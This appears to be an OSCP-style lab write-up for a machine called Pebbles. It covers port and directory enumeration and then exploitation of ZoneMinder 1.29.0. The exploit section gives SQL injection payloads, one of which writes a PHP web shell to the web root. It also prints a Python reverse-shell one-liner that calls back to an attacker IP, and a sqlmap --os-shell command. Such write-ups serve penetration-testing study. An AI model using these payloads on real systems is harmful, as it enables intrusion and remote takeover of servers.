 # Enumeration
`nmap -A -T4 -p- 192.168.148.52`

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 aa:cf:5a:93:47:18:0e:7f:3d:6d:a5:af:f8:6a:a5:1e (RSA)
|   256 c7:63:6c:8a:b5:a7:6f:05:bf:d0:e3:90:b5:b8:96:58 (ECDSA)
|_  256 93:b2:6a:11:63:86:1b:5e:f5:89:58:52:89:7f:f3:42 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Pebbles
|_http-server-header: Apache/2.4.18 (Ubuntu)
3305/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Tomcat
```


# FTP
Anon Login is not enabled.

## HTTP 80
On the main landing page we have a basic HTTP login page.

![](Images/Pasted%20image%2020250503111018.png)

```
ffuf -ic -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://192.168.148.52:80/FUZZ
ffuf -ic -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://192.168.148.52:80/FUZZ.php
```

```
images                  [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 43ms]
css                     [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 41ms]
javascript              [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 43ms]
zm                      [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 41ms]
```

Zm directory leads us to `ZoneMinder Console - Running - default v1.29.0`

![](Images/Pasted%20image%2020250503112809.png)

Using searchsploit we find this version is vulnerable to plenty of things

![](Images/Pasted%20image%2020250503112902.png)


# Exploit

SQL Injection Payload (Practice without SQL Map)

```
view=request&request=log&task=query&limit=100;(SELECT * FROM (SELECT(SLEEP(5)))OQkj)#&minTime=1466674406.084434
```

![](Images/Pasted%20image%2020250503113315.png)

Lets try to use the payload to get a web shell payload.

```
view=request&request=log&task=query&limit=100;SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/webshell.php"#&minTime=1466674406.084434
```

It appears this was able to write properly.

![](Images/Pasted%20image%2020250503114059.png)

I need to use a reverse shell because web shells are not accepted on the OSCP.

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.244",80));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash"])'
```

```
http://192.168.148.52:3305/webshell.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.45.244%22,80));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([%22/bin/bash%22])%27
```

![](Images/Pasted%20image%2020250503115207.png)

Upgrade shell

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
sqlmap http://192.168.148.52/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --os-shell
```
